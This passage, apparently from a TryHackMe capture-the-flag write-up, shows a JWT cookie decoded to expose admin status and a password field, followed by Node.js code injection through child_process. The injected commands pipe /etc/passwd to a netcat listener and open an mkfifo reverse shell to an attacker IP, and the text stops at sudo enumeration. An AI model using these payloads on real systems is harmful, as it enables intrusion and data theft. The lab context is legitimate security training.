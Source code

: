 ![console](https://imgur.com/xVLSQpV.png)

We are redirected to this page:

![redirect](https://imgur.com/lVhXqlt.png)

We can grab the jwt cookie and decode it, I used the following website:

[JWT Decode - jwt.io](https://jwt.io/)

This is what we find:

<pre>{
  "isAdmin": true,
  "_id": "*****",
  "username": "dave",
  "password": "THM{*****}",
  "__v": 0,
  "iat": 1597593057
}</pre>

We are presented with an input field. Entering Unix commands gives us no response. 

I enter "1+1" and it gives us "2" so I made the assumption this is node.js.

From the following article, I found a way to execute my commands:

[Nodejs RCE Exploit - appsecco](https://blog.appsecco.com/nodejs-and-a-simple-rce-exploit-d79001837cc6)

I set up a netcat listener:

<pre>nc -nvlp 4444</pre>

Execute the following command:

<pre>require('child_process').exec('cat /etc/passwd | nc [YOUR IP] 4444')</pre>

We got this:

![netcat test](https://imgur.com/Rsziy6B.png)

We can confirm this works, so let's create a reverse shell. I tried a few different one liners but I found this one worked:

<pre>require('child_process').exec('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.9.6.63 4444  >/tmp/f ')</pre>

![reverse shell](https://imgur.com/CMnNwMW.png)

Upgrade the shell with the following command:

<pre>python -c 'import pty; pty.spawn("/bin/bash")'</pre>

The third flag can be found by searching the mongo database (with the command "mongo"). It's pretty obvious where to find it.

Running sudo -l gives us the following:
